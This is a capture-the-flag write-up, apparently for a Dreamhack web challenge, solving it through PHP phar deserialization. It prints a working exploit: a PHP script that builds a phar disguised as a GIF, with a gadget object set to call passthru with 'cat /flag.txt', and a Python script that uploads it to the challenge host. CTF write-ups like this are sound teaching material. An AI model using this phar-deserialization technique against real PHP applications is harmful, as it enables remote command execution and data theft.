

# solution

Firstly, i look around all source codes and the tiltle of the challenge and i think this vulnerability related to "phar wrapper" and two things we need to know.

```
if (move_uploaded_file($tmpFile, $targetFile)) {
            if (isset($_POST['emergent']))
                $targetFile = 'phar://' . $targetFile;
```

we need parameter **emergent** to access **phar://** url where the vulnerability exists. And in that source code its require supermarket.php.

```
<?php
function goodbye($customer) {
    echo "Good bye, $customer!\n";
}

class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}
?>
```

You see when the server deserialization it will call **\_\_destruct()** and run the funtion **call_user_func()** it will like "Good bye, dream". Hmm can we run sth like "cat flag.txt". After a long time searching and find sth useful, here is how to solve this challenge. Firstly you need to creat a php file "exploit.php"

```
<?php
class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}

$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');

$object = new Supermarket();
$object->greet = "passthru";
$object->customer = "cat /flag.txt";

$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

i will summarize the meaning of this code:

1. Define "supermarket" class
2. Create the Phar file:

- $phar = new Phar('payload.phar');: Creates a Phar object linked to the file payload.phar.
- $phar->startBuffering();: Starts buffering to create the Phar file.
- $phar->addFromString('test.txt', 'test');: Adds a file named test.txt to the Phar with the content test.
- $phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');: Sets the stub for the Phar file, meaning the first part of the Phar file will contain the string GIF89a to mimic a GIF image file, followed by <?php __HALT_COMPILER();?> to stop the PHP code execution.

3. create and set up a malicious object:

- $object = new Supermarket();: Creates an object of the Supermarket class.
- $object->greet = "passthru";: Sets $greet to "passthru", a PHP function used to execute system commands.
- $object->customer = "cat /flag.txt";: Sets $customer to "cat /flag.txt", a system command to read the content of the flag.txt file.

4. Add the object to the Phar and finish:

- $phar->setMetadata($object);: Assigns the $object as the metadata of the Phar file. This metadata will be unserialized when the Phar is opened.
- $phar->stopBuffering();: Finalizes the creation of the Phar file and writes it to the disk. <br>

run this php code by:

```
php --define phar.readonly=0 exploit.php
```

it creates a .phar file with content:


When you upload this file (i will talk how to do that below), the server will deserialization this content and greet become "passthru" and customer become "cat /flag.txt" and run "call_user_func" <br>
Next you change the name of phar from "payload.phar" become "payload.gif" (rename in normal way, like you rename a file).
Finally, create a python file

```
import requests

url = 'http://host3.dreamhack.games:16442'

data = {
    'submit': 1,
    'emergent': 1,
}

with open('payload.gif', 'rb') as f:
    r = requests.post(url, files={'fileToUpload': f}, data=data)

print(r.text)
```

Run this paython and you have the flag.

# preferences:

https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

And a friend i meet in discord, thank you very much buddy.
